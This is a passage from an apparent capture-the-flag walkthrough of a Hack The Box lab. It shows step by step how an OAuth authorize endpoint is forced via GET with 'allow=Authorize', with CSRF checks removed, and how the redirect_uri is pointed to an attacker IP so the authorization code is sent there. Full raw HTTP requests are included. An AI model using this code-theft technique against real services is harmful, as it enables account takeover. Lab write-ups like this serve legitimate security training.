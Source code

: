 If I send this, I get back a 302 redirect to the `redirect_uri` with the code attached:

```

HTTP/1.1 302 Found
Content-Type: text/html; charset=utf-8
Location: http://consumer.oouch.htb:5000/oauth/login/token?code=9E3iRBIZpLtvrwuC0NeNuvWckA3yI8
X-Frame-Options: SAMEORIGIN
Content-Length: 0
Vary: Authorization, Cookie

```

The notes above suggest that this endpoint now supports GET. To convert this to a GET, I started by changing `POST` to `GET`, but that just leads to the page with the button to click Authorize, just like in the Oauth flow originally. I started playing with various POST parameters from the request above, adding them as GET parameters. Once I add `&allow=Authorize` to the GET parameters, I get the redirect I’m looking for. I’ll clean up the request a bit more and get:

```

GET /oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read&allow=Authorize&state= HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Connection: close
Cookie: sessionid=nr57zmuau38o2j89sgbecvg83jyu4px6
Upgrade-Insecure-Requests: 1

```

I was able to take out both the CSRF parameter in the POST and the CSRF cookie. I could also take out the `sessionid` cookie, but then I get the login page instead of the `redirect_uri`.

Now I want to change the `redirect_url` to something else, but it returns a 400 Bad request:

```

            <h2>Error: invalid_request</h2>
            <p>Mismatching redirect URI.</p>

```

If I update the `client_id` and the `redirect_uri` to match what I registered above, the request will come back without throwing that error:

```

GET /oauth/authorize/?client_id=d3VwRo9trmopGfGpiYUsKhkwE674SgAM3wT5A6EQ&response_type=code&redirect_uri=http://10.10.14.6/token&scope=read&allow=Authorize&state= HTTP/1.1
Host: authorization.oouch.htb:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://authorization.oouch.htb:8000/oauth/authorize/?client_id=UDBtC8HhZI18nJ53kJVJpXp4IIffRhKEXZ0fSd82&response_type=code&redirect_uri=http://consumer.oouch.htb:5000/oauth/login/token&scope=read
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Connection: close
```